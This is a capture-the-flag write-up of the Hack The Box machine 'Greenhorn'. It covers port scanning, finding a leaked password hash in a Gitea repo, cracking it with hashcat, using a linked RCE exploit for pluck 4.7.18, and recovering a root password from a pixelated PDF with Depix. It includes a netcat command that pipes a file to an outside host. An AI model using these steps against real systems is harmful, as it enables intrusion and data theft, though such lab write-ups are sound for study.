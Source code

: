 +++
title = 'Greenhorn'
date = 2024-08-24T16:50:47-04:00
draft = false
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++

# Enum



## Port Scanning
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request

```


## 80/ nginx 1.18.0
```bash
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

```bash
/login.php            (Status: 200) [Size: 1242]
/images               (Status: 301) [Size: 178] [--> http://greenhorn.htb/images/]
/admin.php            (Status: 200) [Size: 4026]
/install.php          (Status: 200) [Size: 4035]
/files                (Status: 301) [Size: 178] [--> http://greenhorn.htb/files/]
/data                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/data/]
/docs                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/docs/]
/requirements.php     (Status: 200) [Size: 4047]

```


We find a hostname to add to our /etc/hosts `greenhorn.htb`. Checked for vhosts and didn't find any.


Powered by pluck

`login.php` file gives us a version `pluck 4.7.18`


Checking searchsploit shows a potential exploit



We need to be authenticated to run it.


## 3000/http

```bash
/admin                (Status: 303) [Size: 38] [--> /user/login]
/v2                   (Status: 401) [Size: 50]
/issues               (Status: 303) [Size: 38] [--> /user/login]
/explore              (Status: 303) [Size: 41] [--> /explore/repos]
/notifications        (Status: 303) [Size: 38] [--> /user/login]
/milestones           (Status: 303) [Size: 38] [--> /user/login]

```



No vhosts found.

Found a version on the `/admin` page


`[Powered by Gitea](https://about.gitea.com) Version: 1.21.11`

This looks to be a pretty recent version


Since we know we need a password to login as admin to the pluck app on port 80, we can check the gitea site and see if we can find any creds within the repo or within past commits.

Start by cloning the repo locally:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ git clone http://greenhorn.htb:3000/GreenAdmin/GreenHorn.git
```



Nothing interesting there, just the one commit for the repo. Looking at documentation for pluck, we see it doesn't use a database but stores everything in files. Did the new dev upload that file as well? yep




We can crack the hash with hashcat:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn/GreenHorn/files]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 1700
...
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1

```

`admin:iloveyou1` allows us to login and now we can try the rce exploit (CVE-2023-50564).

---
# Foothold

Created a python script to exploit this in one shot >> https://raw.githubusercontent.com/thefizzyfish/CVE-2023-50564-pluck/main/CVE-2023-50564.py





We can list what's in `junior`'s home dir but can't read the flag


## Exploits
CVE-2023-50564
https://github.com/thefizzyfish/CVE-2023-50564-pluck

--- 
# PrivEsc

We can't ssh into the box as junior with the `iloveyou1` password as it requires public keys.


We can switch to junior with `su`


Interesting linpeas output:


We could try replacing the gitea executable with a rev shell to pivot to the gitea user?
That might be rabbit hole as the file is busy whenever I try to replace it


Looking back at `junior`'s home directory finds an interesting pdf we can send to our box to take a look at
```bash
# On remote host
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ cat 'Using OpenVAS.pdf' | nc 10.10.14.7 1234
junior@greenhorn:~$ 

# On local host
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ nc -l -p 1234 -q 1 > 'Using OpenVAS.pdf' < /dev/null

```


Interesting but checking the file system for openvas doesn't turn anything up. We can try to depixilate the password with a tool named `depix` >> https://github.com/spipm/Depix

First extract the image from the pdf
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ pdfimages "./Using OpenVAS.pdf" greenhorn
```
Run the tool against the created image:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ python3 Depix/depix.py -p greenhorn-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
...
2024-08-24 16:20:06,891 - Saving output image to: output.png

```


```txt
root:sidefromsidetheothersidesidefromsidetheotherside
```


And that's all folks

## Exploits


---


# Post/Pivot



---
